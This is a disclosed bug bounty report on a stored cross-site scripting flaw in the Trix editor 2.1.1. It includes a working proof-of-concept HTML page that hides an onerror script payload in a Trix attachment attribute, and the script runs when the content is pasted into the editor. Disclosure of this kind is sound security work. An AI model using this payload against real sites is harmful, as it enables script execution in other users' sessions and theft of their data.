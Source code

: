 # Stored XSS on trix editor version 2.1.1

## Report Details
- **Report ID**: 2521419
- **URL**: https://hackerone.com/reports/2521419
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-05-27T10:14:46.823Z
- **Disclosed**: 2024-11-04T12:58:12.330Z

## Reporter
- **Username**: thwin_htet
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
The Trix editor  is vulnerable to arbitrary code execution when copying and pasting content from the web or other documents with markup into the editor. The vulnerability stems from improper sanitization of pasted content, allowing an attacker to embed malicious scripts which are executed within the context of the application.

### Vulnerable Version
2.1.1

### Steps to Reproduce
1. Run this HTML code on browser.
```
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Trix Editor XSS Demo</title>
  <script src="https://cdn.jsdelivr.net/npm/trix@2.1.1/dist/trix.umd.min.js"></script>
  <link href="https://cdn.jsdelivr.net/npm/trix@2.1.1/dist/trix.min.css" rel="stylesheet">
</head>
<body>
  <h1>Trix Editor XSS Demo</h1>
  <trix-editor></trix-editor>
  <script>
  document.write(`copy<div data-trix-attachment="{&quot;contentType&quot;:&quot;text/html5&quot;,&quot;content&quot;:&quot;&lt;img src=1 onerror=alert(document.domain)&gt;XSS POC&quot;}"></div>me`);
  </script>
</body>
</html>
```
2. Click `copy me` and paste it in trix editor.

{F3302252}

3. Alert will pop up.

This could be a bypass of recent Trix Editor CVE : CVE-2024-34341
Ref : https://github.com/basecamp/trix/security/advisories/GHSA-qjqp-xr96-cj99

## Impact

An attacker could exploit these vulnerabilities to execute arbitrary JavaScript code within the context of the user's session, potentially leading to unauthorized actions being performed or sensitive information being disclosed.

## Attachments
- image.png

